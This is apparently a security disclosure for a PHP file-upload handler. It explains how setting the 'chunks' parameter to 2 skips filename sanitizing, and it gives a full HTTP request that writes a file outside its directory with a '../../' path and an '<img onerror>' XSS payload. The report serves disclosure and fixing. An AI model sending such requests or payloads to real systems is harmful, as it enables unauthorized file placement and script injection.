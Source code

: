 # Description
Because of not checking if clause for `chunks` parameter when `chunks` >= 2, the user with Uploader role can add value `2` for `chunks` param to bypass `fileName` sanitizer 
![Image](https://i.imgur.com/UYgOuaJ.png)
- In Step 1: 3 parameter that I can control when using upload function `chunk`, `chunks`, `fileName`

- In Step 2: The if clause check if `chunks` parameter < `2`, the `fileName` parameter will be handled. So i add value `2` for `chunks` param then it will pass Step 2 and go to Step 3

![image](https://user-images.githubusercontent.com/54875703/132298897-8751bf58-4a2e-4e89-a2bd-ddb7c3e4ced0.png)
if  i don't add value for `chunk` then the `chunk` parameter goes to `0` and add value `2` for `chunks` parameter, i can pass this if 

# Step To Reproduce
1. Use burpsuite to capture upload request
2.  Change valuable of `chunks` parameter to `2` and add dot dot for `name` parameter to escape root directory
3.  The file was uploaded in webroot directory with `index.html.part` name

![image](https://user-images.githubusercontent.com/54875703/132299904-a8c6239d-14bd-4529-a213-7411ccefabe1.png)


# Request:
```
POST /includes/upload.process.php HTTP/1.1
Host: 172.16.0.12:4444
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:90.0) Gecko/20100101 Firefox/90.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------4677942761162401681381669887
Content-Length: 2817
Origin: http://172.16.0.12:4444
Connection: close
Referer: http://172.16.0.12:4444/upload.php
Cookie: PHPSESSID=7simdbjnrvdjpeq6bkvfukrdvt;

-----------------------------4677942761162401681381669887
Content-Disposition: form-data; name="name"

../../csrf.html
-----------------------------4677942761162401681381669887
Content-Disposition: form-data; name="chunks"

2
-----------------------------4677942761162401681381669887
Content-Disposition: form-data; name="file"; filename="blob"
Content-Type: application/octet-stream

<img src=x onerror=alert(1);>

-----------------------------4677942761162401681381669887--
```
